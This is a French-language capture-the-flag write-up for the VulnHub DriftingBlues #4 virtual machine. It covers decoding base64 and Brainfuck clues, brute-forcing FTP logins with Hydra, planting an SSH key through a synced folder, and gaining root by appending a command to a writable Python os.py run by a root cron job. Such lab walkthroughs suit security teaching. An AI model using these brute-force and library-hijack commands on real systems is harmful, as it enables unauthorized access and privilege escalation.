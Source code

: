 # Solution du CTF DriftingBlues #4 de VulnHub

Quatrième Dimension
-------------------

[Ce CTF](https://www.vulnhub.com/entry/driftingblues-4,661/), 4ème du nom est un boot2root décrit comme facile. Il a été créé par [tasiyanci](https://twitter.com/tasiyanci).  

```plain
Nmap scan report for 192.168.56.9 
Host is up (0.00028s latency). 
Not shown: 65532 closed tcp ports (reset) 
PORT   STATE SERVICE VERSION 
21/tcp open  ftp     ProFTPD 
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) 
| ssh-hostkey:  
|   2048 6a:fe:d6:17:23:cb:90:79:2b:b1:2d:37:53:97:46:58 (RSA) 
|   256 5b:c4:68:d1:89:59:d7:48:b0:96:f3:11:87:1c:08:ac (ECDSA) 
|_  256 61:39:66:88:1d:8f:f1:d0:40:61:1e:99:c5:1a:1f:f4 (ED25519) 
80/tcp open  http    Apache httpd 2.4.38 ((Debian)) 
|_http-title: Site doesn't have a title (text/html). 
|_http-server-header: Apache/2.4.38 (Debian)
```

Le serveur ProFTPD ne fournit pas sa version et ne supporte pas les connexions anonymes. On verra si on peut l'utiliser plus tard.  

Sur la page web on peut lire *Under Construction, please stand by* mais en commentaire dans la source HTML se trouve un base 64. Le résultat contient lui même du base64. Pour réduire je met les différents résultats obtenus :  

```plain
go back intruder!!! dGlnaHQgc2VjdXJpdHkgZHJpcHBpbiBhU0JvYjNCbElIbHZkU2R5WlNCaGJpQmxiWEJzYjNsbFpTQk1NbXgwV201V2FtRXliSFZhTWpGb1drTTFNR1ZJVVQwPQ==

tight security drippin aSBob3BlIHlvdSdyZSBhbiBlbXBsb3llZSBMMmx0Wm5WamEybHVaMjFoWkM1MGVIUT0=

i hope you're an employee L2ltZnVja2luZ21hZC50eHQ=

/imfuckingmad.txt
```

Le dernier path correspond à un fichier sur le serveur web qui semble contenir du code [BrainFuck](https://en.wikipedia.org/wiki/Brainfuck). Une nouvelle fois [dcode.fr](https://www.dcode.fr/brainfuck-language) dispose d'un interpréteur. L'output obtenu est le suivant :  

```plain
man we are a tech company and still getting hacked??? what the shit??? enough is enough!!! 
#
##
--- snip ---
##
#

/iTiS3Cr3TbiTCh.png
```

Ce path correspond à une image d'un code QR. J'ai trouvé [ce décodeur en ligne](https://blog.qr4.nl/Online-QR-Code-Decoder.aspx) qui m'a craché le texte <https://i.imgur.com/a4JjS76.png>.  

Passons sur le caractère risqué de laisser une partie d'un CTF aux mains d'un site dont la survie n'est pas assurée... L'image contient le texte suivant :  

```plain
drifting blues tech confidental

dear:

luther
******
gary
hubert
clark
******

please fix our website soon
```

Gimme a S, Gimme a H,...
------------------------

Armé de ces noms d'utilisateurs on se dit qu'on pourrait bruteforcer le service SSH, mais non d'après Hydra :  

```plain
[ERROR] target ssh://192.168.56.9:22/ does not support password authentication (method reply 4)
```

C'est là que FTP entre en jeu. Je récupère la [probable wordlist](https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords) *Top12Thousand-probable-v2.txt* et je l'utilise comme candidats de passwords pour THC-Hydra (il faut compter une bonne demi heure) :  

```plain
$ hydra -L users.txt -P Top12Thousand-probable-v2.txt ftp://192.168.56.9
--- snip ---
[21][ftp] host: 192.168.56.9   login: hubert   password: john316 
1 of 1 target successfully completed, 1 valid password found
```

Gotcha ! Une fois connecté sur le FTP je remarque un dossier *hubert* vide ainsi qu'un fichier *sync\_log* dont voici le contenu :  

```plain
sync completed at Thu 20 Jan 2022 07:06:01 AM CST
```

Si on attend un peu on remarque que la date indiquée est mise à jour.  

Le message indique qu'une synchronisation a lieu et comme le dossier correspond au nom d'utilisateur on peut imaginer que les fichiers que l'on pose seront copiés sous */home/hubert*.  

Ni une ni deux je crée un dossier .ssh puis je copie ma clé publique SSH sous le nom *authorized\_keys*. Ça fonctionne !  

```plain
$ ssh hubert@192.168.56.9 
Linux driftingblues 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64 

The programs included with the Debian GNU/Linux system are free software; 
the exact distribution terms for each program are described in the 
individual files in /usr/share/doc/*/copyright. 

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent 
permitted by applicable law. 
hubert@driftingblues:~$ cat user.txt  
flag 1/2 
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░░░░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░░▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█

```

This is not a test of the emergency broadcast system, this is a real thing!
---------------------------------------------------------------------------

Dans le dossier de l'utilisateur se trouve un fichier Python :  

```plain
-rwxr-xr-x 1 root root 217 Jan  9  2021 emergency.py
```

Son contenu :  

```python
#!/usr/bin/python 

import os 

os.system('echo 1 >> /tmp/backdoor_testing') 

# template python script for backdoor purposes 
# i'm gonna leave it with loose permissions 
#  
--- snip ---
# 
# say africa without a's
```

Il y a bien un fichier */tmp/backdoor\_testing* appartenant à root et son timestamp change régulièrement, preuve qu'une tache planifiée exécute le script Python.  

Pour que l'exploitation fonctionne il faudrait pouvoir modifier le module *os* de Python et ça tombe bien :  

```plain
hubert@driftingblues:~$ find /usr/ -writable 2> /dev/null  
/usr/lib/python2.7/os.py
```

J'ai seulement ajouté cette ligne à la fin du fichier :  

```python
system("cp /bin/bash /tmp/g0tr00t; chmod 4755 /tmp/g0tr00t")
```

Ça fait le job :  

```plain
hubert@driftingblues:~$ /tmp/g0tr00t -p 
g0tr00t-5.0# cd /root 
g0tr00t-5.0# cat root.txt  
flag 2/2 
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█ 

congratulations!
```

Sous le capot
-------------

```plain
g0tr00t-5.0# tail -3 /var/spool/cron/crontabs/root
SHELL=/bin/bash
* * * * * bash /root/sync
* * * * * python /home/hubert/emergency.py
g0tr00t-5.0# cat /root/sync
#!/bin/bash

omega=$(date)
#sleep 69
rm -rf /home/*/.local /home/*/.bashrc /home/*/.bash_history /home/*/.profie
cp -R /var/driftingblues_ftp/hubert /home/
echo "" > /home/hubert/.bash_history
echo "" > /home/hubert/.bashrc
chmod -R 700 /home/hubert
chown -R hubert:hubert /home/hubert
chown root:root /home/hubert/emergency.py
chmod 755 /home/hubert/emergency.py
echo "sync completed at $omega" > /var/driftingblues_ftp/sync_log
exit
```

That's it!

*Published January 20 2022 at 18 10*